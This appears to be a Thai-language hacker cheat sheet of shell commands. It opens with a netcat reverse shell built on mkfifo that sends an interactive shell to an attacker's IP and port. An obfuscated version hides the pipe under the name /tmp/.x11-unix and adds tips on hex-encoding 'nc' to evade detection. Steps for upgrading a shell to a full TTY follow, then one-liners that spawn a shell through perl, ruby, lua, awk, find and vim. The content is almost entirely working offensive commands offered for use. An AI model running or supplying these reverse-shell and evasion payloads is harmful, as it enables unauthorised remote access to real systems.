 Shell แบบต่างๆ
---------------

แบบใช้ได้ทุกระบบ เก่าๆก็ใช้ได้

แบบไม่ได้เข้ารหัสหรือทำ evas
sh -c 'rm -f /tmp/f;mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <ip> <port> > /tmp/f'

แบบ Split หลบ
Obfuscation + No base64
ก่อน
sh -c 'rm -f /tmp/.x11-unix;mkfifo /tmp/.x11-unix; cat /tmp/.x11-unix | sh -i 2>&1 | nc <ip> <port> > /tmp/.x11-unix'

หลัง แต่ยังหลบไม่มากเพราะยังมี nc, sh -i ชัดเจนอยู่
sh -c "$(echo r$(echo m\ -f\ /tmp/.x11-unix\;\ mkfifo\ /tmp/.x11-unix\;\ cat /tmp/.x11-unix\|sh\ -i\ 2>&1\|nc\ IP\ Port\ >\ /tmp/.x11-unix) )"
Note: ใช้ชื่อ .x11-unix เพื่อพราง

ต่อไปแบบหลบขั้นสูงขึ้น
$(printf \\x6e\\x63)   = nc
เข้ารหัสเป็น hex

---------------------
python upgrade shell
python -c 'import pty; pty.spawn("/bin/bash")'

---------------------
Upgrade shell อีกทาง
เพื่อให้เราใช้ sudo, ลูกศรชี้ขึ้น ลง ... ได้เพื่อให้สะดวกต่อการใช้คำสั่งต่างๆ
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
<Enter>
export PS1="\u@\h:\w$ "
alias ll='ls -la'

---------------------
การเรียก Interactive Shells

Interactive
> /bin/sh -i

Perl
> perl —e 'exec "/bin/sh";'

Ruby To Shell
ruby: exec "/bin/sh"
> ruby: exec "/bin/sh"

Lua
lua: os.execute('/bin/sh')

AWK
> awk 'BEGIN {system("/bin/sh")}'

Find
> find / -name <ชื่ออะไรก็ได้> -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
อีกแบบ
> find . -exec /bin/sh \; -quit

Vim
1.
> vim -c ':!/bin/sh'

2.
> vim
> :set shell=/bin/sh
> :shell

